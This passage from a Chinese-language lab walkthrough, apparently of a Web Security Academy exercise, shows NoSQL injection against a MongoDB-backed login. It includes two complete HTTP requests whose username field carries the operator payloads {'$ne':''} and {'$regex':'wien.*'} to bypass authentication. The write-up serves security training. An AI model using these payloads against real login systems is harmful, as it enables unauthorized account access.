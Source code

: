 Step 2：在 Burpsuite 中测试用户名和密码参数以确定它们是否允许您注入 MongoDB 操作符，首先将 username 参数的值从"wiener"更改为{"$ne":""}，然后发送请求

```plain
POST /login HTTP/1.1
Host: 0a4f0028031131c6805b354a00b5009a.web-security-academy.net
Connection: close
Content-Length: 42
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0a4f0028031131c6805b354a00b5009a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4f0028031131c6805b354a00b5009a.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=6g2cQrl6PQhnpe6DqOQhgVmNPzauLgHB

{"username":{"$ne":""},"password":"peter"}
```

![图片](assets/1711872140-ddf9dcd5c53a63a44cdc2da5865545b4.webp)

随后将 username 参数的值从{"$ne":""}更改为{"$regex":"wien.\*"}，然后发送请求，可以看到这里我们使用$regex 运算符时也可以登录

```plain
POST /login HTTP/1.1
Host: 0a4f0028031131c6805b354a00b5009a.web-security-academy.net
Connection: close
Content-Length: 51
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-platform: "Windows"
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0a4f0028031131c6805b354a00b5009a.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0a4f0028031131c6805b354a00b5009a.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=6g2cQrl6PQhnpe6DqOQhgVmNPzauLgHB

{"username":{"$regex":"wien.*"},"password":"peter"}
```
